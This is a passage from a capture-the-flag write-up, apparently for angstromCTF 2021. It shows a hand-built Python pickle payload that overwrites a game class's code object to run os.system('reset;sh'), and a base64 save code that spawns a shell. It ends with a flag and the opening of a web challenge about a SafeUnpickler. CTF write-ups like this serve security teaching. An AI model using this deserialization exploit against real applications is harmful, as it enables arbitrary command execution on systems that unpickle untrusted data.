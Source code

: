```python
      SHORT_BINBYTES + b'\x12' + b't\x00d\x01\x83\x01\xa0\x01d\x02\xa1\x01\x01\x00d\x00S\x00' + \
      NONE + UNICODE + b'os\n' + UNICODE + b'reset;sh\n' + TUPLE3 + \
      UNICODE + b'__import__\n' + UNICODE + b'system\n' + TUPLE2 + \
      UNICODE + b'xd\n' + TUPLE1 + \
      UNICODE + b'solve.py\n' + \
      UNICODE + b'lmao\n' + \
      BININT1 + b'\x03' + \
      SHORT_BINBYTES + b'\x02' + b'\x00\x01' + \
      EMPTY_TUPLE + \
      EMPTY_TUPLE + \
      TUPLE + \
    REDUCE + \
    DICT + \
  TUPLE2 + \
  BUILD + \
  STOP
```

We're writing the pickle by hand because it ~~builds character~~ gives us much greater control than simply using `pickle.dump`. Starting from the inside out, this pickle constructs a code object with the necessary arguments, creates a dictionary `{'__code__': code_obj}`, creates a tuple `(None, code_dict)`, and finally uses `BUILD` on `SnakeWindow` to eventually call `setattr(SnakeWindow, '__code__', code_obj)`. If you don't understand this fully, I highly recommend following `pickletools.dis` and stepping through it one instruction at a time.

Sure enough, unpickling this and then calling `SnakeWindow` results in a shell. However, since the result of our pickle is not a `SnakeSave` like the game expects, trying to access `highScores` will fail. This is not a problem, though, because overwriting the code object of `SnakeWindow` is already done at this point, so we can just remove the `STOP` and append a regular `SnakeSave` pickle at the end! Rather than try to generate this ourselves, we can just play a game.

```python
import base64
save = base64.b64decode('gASVdwAAAAAAAACMCF9fbWFpbl9flIwJU25ha2VTYXZllJOUKYGUfZQojApoaWdoU2NvcmVzlGgAjBRTbmFrZVNhdmUuSGlnaFNjb3Jlc5STlCmBlH2UKIwGcGxheWVylIwDa2ZilIwGc2NvcmVzlF2USwJhdWKMBGdhbWWUTnViLg==')
print(base64.b64encode(p + save).decode())
```

Inputting this save code results in a shell.

## Flag
```
actf{pickles_are_just_cucumbers_with_extra_steps}
```

# Ekans (web, 250 points)
> I built myself a pokédex to keep track of all the cool pokémon I catch. There's this secret pokémon I don't want anyone to know about, so I used a SafeUnpickler and now nobody can see it! Try it for yourself: [ekans.2021.chall.actf.co](https://ekans.2021.chall.actf.co/)

Files:
- [ekans.py](https://files.actf.co/4da7a3c2c257787315a78cae55564b9eef0c77751c2114a20bfbec524f7d934b/ekans.py)
- [db.py](https://files.actf.co/b2e96e1d40ea3b565ab1341f111fc00dc7652bd34a09bac9d6d8b8d273a614ae/db.py)
- [Dockerfile](https://files.actf.co/cbcf342322bf1082157e526327aaf6dc19dd22305188b391038f962a32c82b98/Dockerfile)
